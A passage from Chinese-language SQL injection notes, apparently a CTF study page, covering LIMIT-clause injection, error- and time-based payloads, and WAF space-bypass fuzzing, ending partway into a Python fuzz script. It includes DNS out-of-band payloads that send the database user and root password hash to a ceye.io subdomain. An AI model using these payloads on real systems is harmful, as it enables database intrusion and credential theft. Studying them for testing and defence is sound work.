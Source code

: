 
这种类型一般实际情况中在参数为start返回一些结果变量的时候，或者其他一些情况，在ctf中也比较多
### 1 没有order by 
可以跟union select 进行查询
```mysql
mysql> select user from users limit 0,1 union select user from users;
+-------+
| user  |
+-------+
| admin |
| test  |
| sp4rk |
| qwer  |
+-------+
```
### 2 有 order by 
这里具体原理可以参考文章   [Mysql注入点在limit关键字后面的利用方法](http://www.freebuf.com/articles/web/57528.html)
```mysql
mysql> select user from users order by user_id limit 0,4 procedure analyse(extractvalue(1,concat(0x5e24,version(),0x5e24)),1);
ERROR 1105 (HY000): XPATH syntax error: '^$5.5.53^$'
基于时间  
select user from users order by user_id limit 0,4 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5,BENCHMARK(5,SHA1(1)),1))))),1);
mysql应该是有版本限制，我这里测试的时候并没有延时....
```
## 0x03 dns注入
这个是针对盲注测试的时候，可以直接用看dns解析请求的方式去快速获取数据，这里直接贴一下payload
```mysql 
LOAD_FILE(CONCAT(0x5C5C,(HEX(USER())),0x2E3563733076642E636579652E696F5C313233))

下面这个是没有引号的
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.xxxx.ceye.io\\abc'));
```
这里上面的地址可以用ceye.io这个网站去看dns的解析记录
## 0x04 waf绕过（这里仅记录一下，以空格为例）
### 1 fuzz（以绕过空格为例子）
朋友分享的一些常见的，和一些通用waf的绕过姿势，看一下，做一下记录
我这里以空格为例子，mysql中当语句为如下的时候返回不同
```mysql
mysql> select * from users where user_id='1' and 1=1;
+---------+-------+-----------+
| user_id | user  | password  |
+---------+-------+-----------+
|       1 | admin | admintest |
+---------+-------+-----------+
1 row in set (0.29 sec)

mysql> select * from users where user_id='1' and 1=2;
Empty set (0.00 sec)
```
在firefox中用hackbar测试这里空格被url编码了为%20
这里我自己写了个脚本，生成了一系列各种符号的url编码，ascii码值，用于fuzz
```python
import sys

save_file = sys.argv[1]
pre = '0x'
num = [1,2,3,4,5,6,7,8,9]
word = ['QWERTYUIOPLKJHGFDSAZXCVBNMqwertyuioplkjhgfdsazxcvbnm']
```